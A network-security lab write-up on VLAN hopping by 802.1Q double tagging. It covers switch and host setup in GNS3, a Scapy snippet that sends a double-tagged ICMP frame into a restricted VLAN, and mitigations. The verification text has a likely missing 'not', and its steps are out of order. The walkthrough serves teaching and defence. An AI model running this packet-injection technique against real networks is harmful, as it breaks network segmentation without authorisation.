


# VLAN Hopping: Double Tagging
Double-tagging is a Layer 2 network attack technique that exploits the behavior of 802.1Q trunk ports and native VLAN handling on switches. In this attack, a threat actor crafts Ethernet frames with two VLAN tags: an outer tag that matches the native VLAN (commonly VLAN 1) and an inner tag for the target VLAN they wish to access. When the packet is sent from an access port belonging to the native VLAN, the first switch removes the outer tag and forwards the frame onto the trunk. The second switch, upon receiving the now-single-tagged frame, interprets the remaining inner tag and forwards it to the corresponding VLAN. This allows the attacker to send traffic into VLANs they shouldn't have access to, even though their physical port is not assigned to that VLAN. Double-tagging is difficult to detect because return traffic typically can't follow the same path back, making it a one-way attack, useful primarily for injecting packets into restricted VLANs.

## Lab Topology

## Setup

### Switch Port Layout
| Switch   | Port    | Connected Device | VLAN    | Port Mode             |
|----------|---------|------------------|---------|-----------------------|
| SWITCH1  | Et0/0   | SWITCH2          | N/A     | Trunk (native VLAN 1) |
| SWITCH1  | Et0/1   | CAMERA_01        | VLAN 20 | Access                |
| SWITCH1  | Et0/2   | ATTACKER         | VLAN 1  | Access                |
| SWITCH2  | Et0/0   | SWITCH1          | N/A     | Trunk (native VLAN 1) |
| SWITCH2  | Et0/1   | CENTRAL_SERVER   | VLAN 20 | Access                |

### VPCS Static IPv4 Configuration

For simplicity's sake, both CAMERA_01 and CENTRAL_SERVER are [VPCS](https://docs.gns3.com/docs/emulators/vpcs/) (virtual PC simulator) appliances. The following command will set an IP address and save the configuration if the device reboots.
<pre>
  VPCS> ip 192.168.0.x/24
  VPCS> save
</pre>

### Docker Container IPv4 Configuration

The ATTACKER machine is a Docker container. The imaged used in this lab is [finchsec/scapy](https://hub.docker.com/r/finchsec/scapy), which gives access to the Scapy program for crafting custom network packets to perform this attack. Configuring IP addresses for Docker appliances in GNS3 is easy as shown below:

R-Click -> Edit config

### Verify

CAMERA_01 should now be able to ping CENTRAL_SERVER

ATTACKER should be able to ping CAMERA_01 or CENTRAL_SERVER due to network segmentation

Craft a double-tagged ICMP packet with Scapy

<pre>
  >>> packet = Ether(dst='ff:ff:ff:ff:ff:ff')/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.0.250')/ICMP()
  >>> sendp(packet, iface="eth0")
  .
  Sent 1 packets.
</pre>

Create new vlan
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# vlan 20
  SWITCH1(config-vlan)# name BLUE
  SWITCH1(config-vlan)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/1, Et0/2, Et0/3
                                                  Et1/0, Et1/1, Et1/2, Et1/3
                                                  Et2/0, Et2/1, Et2/2, Et2/3
                                                  Et3/0, Et3/1, Et3/2, Et3/3
  20   BLUE                             active
</pre>

Assign vlan to switchport Et0/1 (CAMERA_01)
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/1
  SWITCH1(config-if)# switchport mode access
  SWITCH1(config-if)# switchport access vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/2, Et0/3, Et1/0
                                                  Et1/1, Et1/2, Et1/3, Et2/0
                                                  Et2/1, Et2/2, Et2/3, Et3/0
                                                  Et3/1, Et3/2, Et3/3
  20   BLUE                             active    Et0/1
</pre>

Configure Et0/0 as static trunk port
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/0
  SWITCH1(config-if)# switchport trunk encapsulation dot1q
  SWITCH1(config-if)# switchport mode trunk
  SWITCH1(config-if)# switchport trunk allowed vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show interfaces trunk
  
  Port           Mode             Encapsulation  Status        Native vlan
  Et0/0          on               802.1q         trunking      1

  Port           Vlans allowed on trunk
  Et0/0          20

  Port           Vlans allowed and active in management domain
  Et0/0          20

  Port           Vlans in spanning tree forwarding state and not pruned
  Et0/0          20
</pre>

Repeat these step on SWITCH2

## Mitigations
You can prevent double-tagging attacks by:
- Setting the native VLAN to an unused VLAN
- Forcing all trunks to tag all traffic (i.e., vlan dot1q tag native)
- Avoiding VLAN 1 for any user-access ports
